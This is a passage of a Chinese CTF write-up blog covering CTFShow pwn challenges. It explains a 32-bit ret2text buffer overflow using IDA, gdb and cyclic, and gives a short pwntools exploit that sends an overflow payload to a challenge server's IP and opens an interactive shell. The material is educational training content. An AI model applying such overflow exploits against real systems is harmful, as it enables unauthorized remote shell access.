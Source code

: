 ```yaml
---
title: BUUCTF_0x1
categories: 
    - CTF刷题记录
    - BUUCTF
---
```



# Pwn_CTFShow

## 1.PWN签到题
直接 `nc`
 
出flag，白给

## 2.pwn02
### ret2text 32
file 一下
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201003165432499.png#pic_center)

32bit

IDA分析

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020100316555337.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

发现 bin/sh 地址

可以用 `cyclic`生成字符串，然后gdb run一下，再计算出偏移

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201003165929850.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/202010031701141.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20201003170147811.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201003170222624.png#pic_center)

`cyclic -l 0x......`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201003170357937.png#pic_center)

exp：

```python
from pwn import *

p=remote('111.231.70.44',28042)

payload='a'*13 + p32(0x8048518)

p.sendline(payload)

p.interactive()
```
## 3.pwn03
### libc 32
[参考博客](https://blog.csdn.net/gd_9988/article/details/106744216)
